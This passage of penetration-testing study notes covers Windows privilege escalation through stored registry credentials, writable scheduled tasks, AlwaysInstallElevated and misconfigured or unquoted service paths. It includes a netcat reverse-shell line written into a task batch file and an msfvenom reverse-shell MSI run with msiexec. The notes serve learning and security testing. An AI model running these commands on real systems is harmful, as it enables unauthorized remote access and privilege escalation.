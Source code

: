 ```
			- If the possibility of stored proxy credentials are there, the below regkey can be looked up
			- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
			- The above is an example for PuTTY
			- Other programs on the  machine that store credentials/parameters will possibly have their own registry entries that contain similar contents
	- Other Quick Wins
		- Scheduled Tasks
			- `schtasks`
			- `schtasks /query /tn taskName /fo list /v`
			- The "Task To Run" is what's interesting
			- You can then do a `icacls` to see what access levels are given on the program that runs in the "Task to Run"
			- if the user or its associated groups have access to write (or full) to the program then it can be manipulated
				- Especially if it's a batch file `.bat`
			- `echo ..\nc64.exe -e cmd.exe 'attack-box-ip' 'attack-box-port' > ..\exampleSchTask.bat`
	- AlwaysInstallElevated
		- `.msi` files - Windows installer files
		- Normally run with the user level of the user that starts it
		- There can be the potential for a compromised .msi file that could run with admin priv's
		- Two registry values would need to be set, which can be run from the CLI
			- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
			- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST='attack-box-ip' LPORT='attack-host-port' -f msi -o malicious`
			- `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
	- Service Misconfigurations
		- Windows Services
			- Win Services are managed by the Service Control Manager (SCM)
		- `sc qc 'service-name'`
			- BINARY_PATH_NAME - will indicate which executable is used in the given service-name
			- SERVICE_START_NAME - will indicate which account is used to run the service
		- DACLs - Discretionary Access Control Lists
			- Services have Discretionary Access Control Lists which indicate who has permission to start, stop, pause, query status, query configurations, or reconfigure the service -- amongst other privileges
		- Service Configurations are kept in:
			- `HKLM\SYSTEM\CurrentControlSet\Services\`
		- Insecure Permissions on Service Executable
			- Check to see what user starts the service
				- `sc qc 'service-name`
			- Check to see the permissions on the program/executable that the service launches
				- `icacls 'path-to-executable'`
				- Look out for what has modify permissions on the file
				- Payload
				- Modify permissions for the executable
				- Restart the service
				- (note that PowerShell will need to specify `sc.exe` if in there)
	- Unquoted Service Paths
		- If a service path (to its binary/executable) is contained within double quotes, then SCM (Service Control Manager) knows that it has to execute that binary that the service is pointing to
		- IF however, there are no quotations and there are spaces in the binary path - then the Service Control Manager will not know exactly which folder, path to follow (spaces between Program and Files, or in the actual executable name itself for example)
			- Because a space is used as an argument separator, unless specified that it is not within double quotes
		- Both Program Files directories aren't writable by unprivileged users. 
		- But sometimes a different location may be set for a service to run from, or some installers change the permissions of the installed folders where the service executable may be
		- Windows/SCM will not break the service if quotes aren't used - but it will try to find a potential location of what the actual path might be depending on what is in the binary-path
```